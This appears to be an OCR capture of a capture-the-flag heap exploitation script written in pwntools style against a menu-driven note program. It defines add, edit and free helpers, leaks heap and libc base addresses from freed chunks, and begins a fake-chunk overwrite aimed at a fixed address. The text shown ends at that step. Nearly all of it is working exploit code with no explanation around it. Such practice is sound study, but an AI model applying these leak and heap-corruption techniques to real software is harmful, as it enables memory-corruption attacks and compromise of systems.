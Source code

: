 	def add(size, content='a'):
	    sla('(CMD)>>> ','a')
	    sla('(SIZE)>>> ',str(size))
	    sla('(CONTENT)>>> ',content)
	
	
	
	def edit(idx, content):
	    sla('(CMD)>>> ','e')
	    sla('(INDEX)>>> ',str(idx))
	    sla('(CONTENT)>>> ',content)
	    sla('Is it OK?\n','Y')
	   
	
	
	def free(idx):
	    sla('(CMD)>>> ','d')
	    sla('(INDEX)>>> ',str(idx))
	
	def exit():
	    sla('(CMD)>>> ','Q')
		 
	add(0x100)
	add(0x100)
	add(0x100)
	add(0x100)
	
	free(3)
	free(1)
	ru('INDEX: 1')
	ru('CONTENT: ')
	heapbase = u64(ru('\n')[:-1].ljust(8,b'\x00')) -(0x100+0x10)*2
	ru('INDEX: 3')
	ru('CONTENT: ')
	main_arena_88 = u64(ru('\n')[:-1].ljust(8,b'\x00')) 
	libcbase = main_arena_88-0x3C4B78
	environ = libc.sym['environ']+libcbase
	lg('heapbase',heapbase)
	lg('libcbase',libcbase)
	
	#dbg()
	
	add(0x100)
	add(0x100)
	
	#dbg()
	
	#四个chunk与top chunk合并
	free(4)
	free(1)
	free(2)
	free(3)
	
	#dbg()
	#empty now 
	
	add(0x100,'a'*0x100)
	edit(1,b'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+b'\x00'*0x20+p64(0x40))
	